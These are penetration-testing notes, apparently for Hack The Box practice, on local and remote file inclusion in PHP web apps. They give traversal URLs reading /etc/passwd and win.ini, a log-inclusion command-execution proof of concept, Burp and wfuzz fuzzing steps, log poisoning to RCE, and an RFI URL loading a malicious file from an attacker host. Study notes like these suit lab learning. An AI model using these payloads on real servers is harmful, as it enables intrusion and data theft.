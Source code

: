 ```yaml
---
description: A common vulnerability found in PHP web apps
---
```


# File Inclusion Vulnerabilities

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion" %}

## Local File Inclusion (LFI)

* The LFI attack is where an attacker can trick the web app into exposing or running files on the web server
* Attempt dot-dot-slash attack to ensure the attack is possible

Example: http://htb.local/?page=../../../../../../test.txt

### PoC

```
http://10.11.0.22/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

### Bruteforcing LFI via directory

* Obtain a GET request in burp
* Send to Intruder
* Attack type set to Sniper

Example on where to place payload:

```
GET /admin/?|PAYLOADHERE|= HTTP/2
```

* Click the add button on the right side and make sure that the payload character is between the field where the two pipes are
* Go to payloads > Load > SecLists > Discovery > Web-Content > raft-small-words.txt
* Click start attack
* Make sure to order by the largest length as that will be what you need to focus on

### Fuzzing

* This section is for if you found something from bruteforcing for LFI

```
GET /admin/?debug=|fasfoaj|
```

* Place the payload characters in between the pipes
  * Remember, the pipes are the payload characters in burp, you need to manually add this
* Go to payloads > SecLists > LFI > LFI-jhaddix.txt
* Select start attack and organize by largest length again

Example of LFI:

```
http://10.10.10.1/admin/?debug=../../../../../windows/win.ini

http://10.10.10.1/admin/?debug=../../../../../etc/passwd
```

Wfuzz:

```
wfuzz -c -z file,/usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt --hh <common number> <URL>
```

## Apache Log Poisoning

* If you can include an Apache log file through LFI, you can often inject PHP to the logs and execute that PHP using the LFI
* These logs can be stored in a variety of places
* Do more research on where these places can be

## LFI 2 RCE

{% embed url="https://www.rcesecurity.com/2017/08/from-lfi-to-rce-via-php-sessions/" %}

## Remote File Inclusion (RFI)

* Similar to an LFI but a remote file can be included and served to execute server-side code

Example:

http://htb.local/?page=http://\<kali_IP:8000>/maliciou_s\_file.php

<figure><img src="../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>
